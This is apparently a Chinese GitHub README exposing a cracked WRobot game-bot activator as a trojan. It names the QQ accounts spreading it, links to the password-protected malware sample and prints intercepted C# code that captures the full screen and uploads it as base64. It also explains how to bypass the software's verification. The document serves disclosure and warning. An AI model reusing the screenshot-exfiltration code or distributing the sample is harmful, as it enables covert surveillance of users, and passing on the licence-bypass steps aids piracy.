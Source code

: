 # Wrobot 木马

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

`木马传播涉事QQ号 8171974 287228864 401979123  QQ群 6456089 传播时间 2017-2023 活跃至今`

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/5.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/6.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/7.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/9.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 注意此文件为木马
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>

当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上
```
#==== 下面两行是破解版WR转向服务器IP ====
43.252.229.37 tumadre.000webhostapp.com
127.0.0.1 download.wrobot.eu
```

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「点击查看截取信息」</strong></code></summary>
  
```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

### 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

### 分析
检查过后发现 WRobotWOTLK\Bin\*.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 *.dll 内几处代码后正常启动。

此破解程序是用于魔兽世界私人服务器，此类游登陆器大多会被杀毒软件提示病毒而让玩家关闭杀毒，破解程序通过设置多个障碍来在一个小范围内寻找合适的目标并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。

```
域名: wrobot_free.kissdjmax.com	 IP: 43.252.229.37  托管: Cloudie Limited
域名: wrobot_vip.kissdjmax.com	 IP: 103.96.74.226  托管: Cloudie Limited
```

此软件涉及屏幕截图和通过Web请求发送图像数据，这绝不是正常软件会做的事。

### 结论
在火绒安全提交了样本后，由火绒安全人工认定此破解程序为木马，处理结果 `https://bbs.huorong.cn/forum.php?mod=viewthread&tid=122996`

```
病毒名称：Trojan/Agent.bbp
病毒ID：6D2ACBF71A377760
病毒路径：C:\Users\game\AppData\Local\Temp\Rar$DRb2668.5172\破解版WRobot验证端.exe
操作类型：修改 
操作结果：已处理
```
https://user-images.githubusercontent.com/127265295/225115946-6562ab47-a3ad-4b4f-a5bd-0c086a57b625.mp4

### 设置本地验证与去掉验证直接使用
为避免更多人受害，通过2种方法可以不需要通过外部联网验证使用此软件。注意：下方网盘中全部文件来源于 QQ群 6456089 我不保证群管理员是否还添加了其他隐藏的木马，如果你想要使用请确保在虚拟机内运行。此网盘文件中包含2种验证方法的高清视频，过程很简单。

#### 「方法1」

https://user-images.githubusercontent.com/127265295/227767617-3db09c4e-4010-4a35-85e1-8ff17a42f501.mp4


#### 「方法2」

https://user-images.githubusercontent.com/127265295/227767634-607cfbc0-1a06-4508-8d1d-17fda18d6ae6.mp4

```
全文件下载：https://caiyun.139.com/m/i?075CuXuSUI4MY  提取码:eyPa 已知木马已删除,但不排除还有
```
<details>
<summary><code><strong>「查看截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/Screenshot_2023-03-14_13-02-20.png?raw=true" width=30%  />
</details>

### 所有文件都在此存储库内可自行下载检查,注意此存储库的有不安全的文件,请在虚拟机内查看.带密码的压缩包内的文件已认定为木马
